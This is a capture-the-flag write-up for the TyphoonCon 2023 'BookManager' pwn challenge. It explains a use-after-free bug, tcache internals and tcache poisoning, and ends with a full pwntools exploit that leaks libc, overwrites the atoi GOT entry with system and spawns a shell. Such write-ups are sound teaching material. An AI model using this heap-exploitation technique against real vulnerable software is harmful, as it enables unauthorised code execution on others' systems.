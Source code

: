 ```yaml
---
layout:     post
title:      BookManager [TyphoonConCTF]
date:       2023-06-30 04:30:00
summary:    WriteUp for challenge BookManager in TyphoonCon CTF
categories: 
- CTF
thumbnail: flag
tags:
- Pwning
---
```


This is a writeUp for challenge bookManager which was one of the three pwning challenges in typhoonCon CTF 2023. It is a fairly easy challenge given some knowledge of heap internals (tcache).

## Code analysis
The main function is a simple while loop containing a switch statement, having calls to other functions.
![main function](/images/2023-06-30-typhooncon-BookManager/main.png)

The important ones for us are the following

![new_book function](/images/2023-06-30-typhooncon-BookManager/new_book.png)
`new_book()` allocates a new slot (book) for us. It can allocate upto 5 books and it picks up the first empty slot and fills it with a malloc allocation of the size we specify.

![edit_book function](/images/2023-06-30-typhooncon-BookManager/edit_book.png)
`edit_book()` takes an index verifies that it is valid and not null and writes data to the allocation from `new_book()`. There seems to be no overflow here.

![show_book function](/images/2023-06-30-typhooncon-BookManager/show_book.png)
`show_book()` simply prints out an allocation at a given index if it is not null. This can be used for information disclosure.

![delete_book function](/images/2023-06-30-typhooncon-BookManager/delete_book.png)
`delete_book()` deletes the allocation using free but does not null out the pointer in `books` array resulting in a dangling pointer and this is where the bug lies.

## Background on tcache
tcache is a cache structure on top of the heap allocator bins and it contains recently freed allocations of sizes 24 to 1032 in bins of specified sizes. In ptmalloc2 allocations happen as chunks, i.e., tcache contains free chunks. the chunk structure is as follows
```
struct chunk{
size_t previous_size;
size_t size;
struct chunk* next;
struct chunk* prev;
// remaining data follows
};
```
the `previous_size` is size of the previous chunk in memory. `size` is size of the current chunk and `next` and `prev` are pointers to other chunks in a doubly linked list. However, in case of tcache only the `next` pointer is used and `prev` is unused as chunks in one bin are put in a singly linked list in a LIFO manner. 

Also note that, malloc returns the address of `next` pointer as start of the buffer not the start of the chunk, so, `next` pointer occupies the first few bytes of a free malloc buffer, but when allocated the same space has user data. Consider the following code.

```
a = malloc(0x10);
b = malloc(0x10);

free(a);
free(b);

c = malloc(0x10); // b is returned
d = malloc(0x10); // a is returned
```

the following image shows how deallocations happen. Note that now `b` will be allocated before `a`.
![tcache](/images/2023-06-30-typhooncon-BookManager/tcache.png)

The important thing to note here is that the free chunks are in a singly linked list. if any of the next pointers is corrupted allocations will happen from a corrupted linked list and malloc can be made to return manipulated addresses as allocations. This is exactly what we do in this challenge.

## Exploitation

### Main Idea

If we `delete_book()` an allocation and then `edit_book()` on it, we can modify the next pointer of the book so the second `new_book()` with the same size will return an allocation with the address we wrote using `edit_book()`.

This gives us arbitrary read primitive using `show_book()` and arbitrary write using `edit_book()`.

### atoi

Since it is partial RELRO and no PIE we can easily overwrite `.got` entry for `atoi`. `atoi` is called in every iteration of the main loop in `read_int` here is a decompilation for completeness.
![read_int](/images/2023-06-30-typhooncon-BookManager/read_int.png)

We first get an allocation with the address of `.got` entry for `atoi` using our `edit_book()` method. We read address of `atoi` and get libc base address from there and then write address of `system` in the `.got` entry.

So in the next loop we send `"/bin/sh"` in the next iteration of main loop giving us shell.

## Full Exploit

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./task")
libc = ELF("./libc-2.27.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("0.cloud.chals.io", 29394)

    return r

r = conn()

def malloc(sz) :
    r.recvuntil(b'>> ')
    r.send(b'1')
    r.recvuntil(b'size:\n')
    r.send(bytes(str(sz), 'ascii'))

def free(idx) :
    r.recvuntil(b'>> ')
    r.send(b'3')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))

def show(idx) :
    r.recvuntil(b'>> ')
    r.send(b'4')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))
    r.recvuntil(b'OUTPUT: ')
    return r.recvline()

def edit(idx, content) :
    r.recvuntil(b'>> ')
    r.send(b'2')
    r.recvuntil(b'index:\n')
    r.send(bytes(str(idx), 'ascii'))
    r.recvuntil(b'content:\n')
    r.send(content)

def main():

    malloc(0x10)
    free(0)
    edit(0, p64(exe.got['atoi']))
    malloc(0x10)
    malloc(0x10)
    libc.address = u64(show(2)[:6].ljust(8, b'\x00')) - libc.symbols['atoi']
    print(f"LIBC ADDRESS : {hex(libc.address)}")
    edit(2, p64(libc.symbols['system']))
    r.send(b'/bin/sh\x00')
    r.recvuntil(b'>> ')
    r.send(b'/bin/sh \x00')
    r.interactive()


if __name__ == "__main__":
    main()

```

